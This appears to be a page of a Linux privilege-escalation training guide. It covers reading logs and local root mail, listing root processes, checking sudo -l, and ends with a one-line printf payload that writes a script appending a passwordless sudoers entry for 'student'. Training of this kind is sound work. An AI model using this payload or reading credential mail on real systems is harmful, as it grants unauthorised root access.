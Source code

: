 # 4⃣ Logs

A running Linux server is a complicated beast with dozens of things happening in the background. Admins might at times forget to clean up the system properly when they install/update/remove things. Most of the times, these scenarios can be debugged with error logs. For an attacker, these logs can be a treasure trove! It allows him to understand how everything is running in the server and what kind of errors are happening. Of course, these logs might sometimes be spread over the system in different formats based on the admin's personal preferences.



***

### Check for services running as root

```
ps

ps -ef
```

{% hint style="info" %}
In this case Postfix service is running with root privileges.
{% endhint %}

### Read local mail

```
cat /var/mail/root
```

### Check for permitted commands to run as root

```
sudo -l
```

### Create a missing script with custom code

```
printf '#! /bin/bash\necho "student ALL=NOPASSWD:ALL" >> /etc/sudoers' > /opt/exec.sh
```

